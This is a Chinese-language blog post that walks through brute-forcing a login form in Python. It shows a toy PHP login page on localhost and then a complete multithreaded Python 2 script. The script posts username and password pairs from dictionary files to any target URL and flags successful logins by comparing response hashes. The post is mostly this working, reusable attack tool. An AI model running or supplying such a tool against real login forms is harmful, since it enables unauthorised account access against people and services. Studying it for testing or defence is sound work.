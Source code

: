 +++
date = "2016-09-05T23:43:22+08:00"
description = ""
draft = false
tags = ["python", "爆破", "python实现"]
title = "Python实现表单爆破"
topics = ["Python"]

+++

## 接收变量的php脚本如下
> ```php
//代码仅供测试
<?php
    $name = @$_POST['uname'];
    $pass = @$_POST['upass'];

    if (empty($name) or empty($pass)){
        header("location:http://127.0.0.1:921/test/test/index.html");
        exit();
    } else {
        if ($name === 'admin' and $pass === '123456'){
            header("location:http://127.0.0.1:921/test/test/sucess.html");
        } else {
            header("location:http://127.0.0.1:921/test/test/error.html");
            exit();
        }
    }
?>
```

## 爆破表单的python脚本如下
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import hashlib
import requests
from Queue import Queue
import threading
from optparse import OptionParser
from time import sleep

lock = threading.Lock()
queue = Queue()
result = []

class FormBlast(threading.Thread):
    """docstring for FormBlast"""
    def __init__(self, *arg):
        super(FormBlast, self).__init__()
        (options,args,queue) = arg
        self.url = options.url
        self.fname = options.fname
        self.fpass = options.fpass
        self.args = args
        self.queue = queue
        self.s = requests.Session()
        self.base_md5 = ''

    def get_payload(self, vname, vpass):
        dict2 = {}
        if self.args:
            for x in self.args:
                (key,value) = x.split('=')
                dict2[key] = value
        dict1 = {self.fname: vname, self.fpass: vpass}
        payload = dict(dict1, **dict2)
        return payload

    def get_md5(self, html):
        md5 = hashlib.md5()
        md5.update(html)
        return md5.hexdigest()

    def get_base_md5(self):
        proxy = {
            'http': 'http://127.0.0.1:8080'
        }
        payload = self.get_payload('1', '1')
        resp = self.s.post(self.url, data=payload)
        resp.coding = resp.apparent_encoding
        html = resp.text
        self.base_md5 = self.get_md5(html)

                        
    def run(self):
        # global result
        self.get_base_md5()
        while not self.queue.empty():
            (user,pwd) = self.queue.get().split(':')
            payload = self.get_payload(user,pwd)
            try:
                resp = self.s.post(self.url, data=payload, timeout=10)
                resp.coding = resp.apparent_encoding
                code = resp.status_code
                html = resp.text
                curr_md5 = self.get_md5(html)

                if curr_md5 != self.base_md5 and code==200:
                    s = "[Ok] User:%s Pass:%s" % (user,pwd)
                    result.append(s)
                    lock.acquire()
                    print s
                    lock.release()
                    self.queue.task_done()
                else:
                    error = "[Error] User:%s Pass:%s" % (user,pwd)
                    lock.acquire()
                    print error
                    lock.release()
                    self.queue.task_done()
            except requests.exceptions.ConnectTimeout:
                self.queue.put(user+':'+pwd)
            except:
                pass
        # print self.result


def get_content(filename):
    data = []
    with open(filename) as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_queue(list1, list2):
    for user in list1:
        for pwd in list2:
            queue.put(user+':'+pwd)

def main():
    parser = OptionParser()
    parser.add_option('-u','--url',dest='url',
                        help='Get target url')
    parser.add_option('-n','--fname',dest='fname',
                        help='The user name in the form')
    parser.add_option('-p','--fpass',dest='fpass',
                        help='The pass name in the form')
    parser.add_option('-L','--namefile',dest='namefile',default='namefile.txt',
                        help='The user name dictionary files')
    parser.add_option('-P','--passfile',dest='passfile',default='passfile.txt',
                        help='The password dictionary files')
    (options,args) = parser.parse_args()

    if options.url and options.fname and options.fpass and options.namefile and options.passfile:
        users = []
        pwds = []
        users = get_content(options.namefile)
        pwds = get_content(options.passfile)
        get_queue(users, pwds)

        for x in xrange(1,41):
            blast = FormBlast(options, args, queue)
            blast.setDaemon(True)
            blast.start()
        queue.join()

        sleep(3)
        print "########################################"
        for x in result:
            print x
    else:
        parser.print_help()


if __name__ == '__main__':
    main()
```

## 结果
> {{% fluid_img src="/img/post/form_blast1.png" alt="表单爆破1" %}}
<br /><br />
{{% fluid_img src="/img/post/form_blast2.png" alt="表单爆破2" %}}